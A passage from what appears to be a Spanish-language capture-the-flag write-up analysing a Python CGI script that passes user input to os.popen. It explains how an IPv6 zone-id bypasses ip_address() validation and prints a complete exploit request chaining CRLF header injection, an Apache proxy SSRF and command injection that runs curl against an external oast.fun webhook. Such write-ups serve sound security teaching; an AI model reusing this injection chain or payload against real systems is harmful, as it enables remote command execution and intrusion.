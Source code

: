 ```python
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')

print('Content-Type: text/html')
print()
```

Se observa que se intenta validar target con ip_address() de la librería ipaddress de Python, para asegurarse de que sea una IP válida, podemos inyectar comandos usando $, ya que Apache está ejecutando el CGI, entonces la inyección se da antes siquiera de que se llegue al código Python. Solo basta con proporcionar una IP valida, ya sea ipv4 o ipv6.

Usaremos en este caso una ipv6 y el caracter especial $ para ejecutar comandos:

```bash
::1%$(command)
```
Nuestro payload completo se traduce a:

```js
GET /cgi-bin/attack-domain?target=-&name=a%0d%0aLocation:+/a%0d%0aContent-Type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%25%32%30aqsmhrfmvylkqdnuqyqqpqvhktneu42h2.oast.fun?testt)%260name=%0D%0A%0D%0A
```

![alt text](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2025/image-15.png)

El cual hace una simple petición a mi webhook para validar si funciona.
